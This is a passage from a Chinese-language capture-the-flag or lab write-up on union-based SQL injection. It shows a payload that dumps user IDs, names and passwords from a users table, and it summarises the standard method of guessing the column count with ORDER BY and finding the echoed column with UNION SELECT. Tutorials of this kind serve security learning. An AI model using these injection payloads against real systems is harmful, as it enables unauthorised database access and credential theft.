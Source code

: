 ![image-20241211205514443](/img/ctfLearn/image-20241211205514443.png)

注：图仅供参考，可能有错漏



12.获取数据

```
SELECT first_name, last_name FROM users WHERE user_id = '
# 以下是输入的内容
1' or 1=1
union select group_concat(user_id,first_name,last_name),group_concat(password) from users
#';
```



## 总结

联合查询常用套路和步骤：

1. order by 猜列数
2. union select 跟列数找到回显点，对应的地方放查询语句

例：得知有3列，可以union select 233,666,777找到页面中回显的地方，比如233被回显到了页面中，泽可以union select database(),666,777即可得到数据库名。